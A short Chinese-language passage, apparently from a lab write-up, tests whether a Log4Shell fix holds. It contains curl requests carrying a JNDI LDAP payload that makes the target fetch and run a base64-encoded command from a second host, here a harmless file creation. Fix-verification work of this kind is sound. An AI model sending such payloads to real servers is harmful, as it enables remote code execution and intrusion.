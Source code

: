 ##### 2. 测试漏洞

发送一个与利用时使用的测试负载类似的请求：

```bash
# 发送带有JNDI查找的测试负载
curl -X GET "http://10.37.133.3:47147/hello?payload=  \${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

如果执行此负载，它将尝试在 `/tmp/test_exploit`处创建一个文件。

##### 如何验证：

```bash
# 检查应用程序是否仍能正常运行（应返回正常响应）
curl -X GET "http://10.37.133.3:47147/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

![1742796931976](image/网络安全丁梦/1742796931976.png)

```bash
# 连接到容器以检查利用命令是否被执行
docker exec -it musing_lichterman /bin/bash
ls -la /tmp/test_exploit  # 如果修复有效，此文件不应存在
```

